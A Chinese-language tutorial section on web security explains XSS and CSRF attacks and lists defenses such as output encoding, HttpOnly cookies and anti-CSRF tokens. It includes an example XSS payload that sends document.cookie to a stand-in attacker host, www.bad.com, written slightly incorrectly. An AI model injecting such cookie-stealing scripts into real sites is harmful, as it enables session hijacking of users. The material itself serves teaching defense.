

## 典型的安全漏洞

Web 典型的安全漏洞种类很多，如 `XSS`, `CSRF`, `SQL注入`,`Cross IFrame Trick`, `clickJacking`,  `文件上传` 等等。下面列举两种客户端常见的安全漏洞。

### XSS

XSS (Cross Site Scripting)，跨站脚本攻击。为了和层叠样式表(Cascading Style Sheets，CSS)区分开，跨站脚本在安全领域叫做 XSS。攻击者往 Web 页面里注入恶意代码，当用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取 cookie 信息、会话劫持、改变网页内容、恶意跳转等各种攻击。XSS 是常见的 Web 攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被 OWASP 列为当前的头号 Web 安全威胁。

举一个简单的例子

在 `a.com` 的搜索输入框中输入如下内容，并提交请求
```
<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
```
如果前端没有进行过滤，浏览器地址可能变为：
```
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
```
此时，用户的 cookie 信息已经被发送到攻击者的服务器，攻击者便能利用收集的 cookie 信息来伪造用户身份，进行多种恶意非法操作。


XSS 攻击类型一般分为三种：

- 反射型 XSS

反射型 XSS 只是简单的把用户输入的数据“反射”给浏览器，XSS 脚本出现在 URL 请求参数里，也就是说需要诱使用户“点击”一个恶意链接，才能攻击成功。反射型 XSS 也叫作非持久型 XSS。

- 储存型 XSS

存储型 XSS 也被称为持久型 XSS，当攻击者输入一段恶意脚本后，被服务端接受保存，当用户访问这个页面时，恶意脚本就会被执行，从而造成漏洞。

- DOM Based XSS

基于 DOM 的 XSS，通过对具体 DOM 代码进行分析，根据实际情况构造 DOM 节点进行 XSS 跨站脚本攻击。

#### 防范 XSS

对于 XSS 攻击，我们可以做如下防范：

1. 输入过滤。永远不要相信用户的输入，对用户输入的数据做一定的过滤。如输入的数据是否符合预期的格式，比如日期格式，Email 格式，电话号码格式等等。同时，后台服务器需要在接收到用户输入的数据后，对特殊危险字符进行过滤或者转义处理，然后再存储到数据库中。

2. 输出编码。服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范 XSS 攻击。输出 HTML 属性时可以使用 HTML 转义编码（HTMLEncode）进行处理，输出到页面脚本代码中，可以相应进行 Javascript encode 处理。

3. HttpOnly Cookie。预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应用程序在设置 cookie 时，将其属性设为 HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。

4. WAF(Web Application Firewall)，Web 应用防火墙，主要的功能是防范诸如网页木马、XSS 以及 CSRF 等常见的 Web 漏洞攻击。由第三方公司开发，在企业环境中深受欢迎。


### CSRF

CSRF (Cross Site Request Forgery)，即跨站请求伪造。简单的理解是，攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF 能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账等，造成个人隐私泄露，财产损失。

举个例子，受害者用户登录网站 A，输入个人信息，在本地保存服务器生成的 cookie。攻击者构建一条恶意链接，例如对受害者在网站 A 的信息及状态进行操作，典型的例子就是转账。受害者打开了攻击者构建的网页 B，浏览器发出该恶意连接的请求，浏览器发起会话的过程中发送本地保存的 cookie 到网址 A，A 网站收到 cookie，以为是受害者发出的操作，导致受害者的身份被盗用，完成攻击者恶意的目的。




#### 防范 CSRF

对于 CSRF 攻击，我们可以做如下防范：

1. 验证码。应用程序和用户进行交互过程中，特别是账户交易这种核心步骤，强制用户输入验证码，才能完成最终请求。在通常情况下，验证码够很好地遏制 CSRF 攻击。但增加验证码降低了用户的体验，网站不能给所有的操作都加上验证码。所以只能将验证码作为一种辅助手段，在关键业务点设置验证码。

2. Referer Check。HTTP Referer 是 header 的一部分，当浏览器向 Web 服务器发送请求时，一般会带上 Referer 信息告诉服务器是从哪个页面链接过来的，服务器以此可以获得一些信息用于处理。可以通过检查请求的来源来防御 CSRF 攻击。正常请求的 referer 具有一定规律，如在提交表单的 referer 必定是在该页面发起的请求。所以通过检查 http 包头 referer 的值是不是这个页面，来判断是不是 CSRF 攻击。

3. Anti CSRF Token。目前比较完善的解决方案是加入 Anti-CSRF-Token，即发送请求时在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器建立一个拦截器来验证这个 token。服务器读取浏览器当前域 cookie 中这个 token 值，会进行校验该请求当中的 token 和 cookie 当中的 token 值是否都存在且相等，才认为这是合法的请求。否则认为这次请求是违法的，拒绝该次服务。
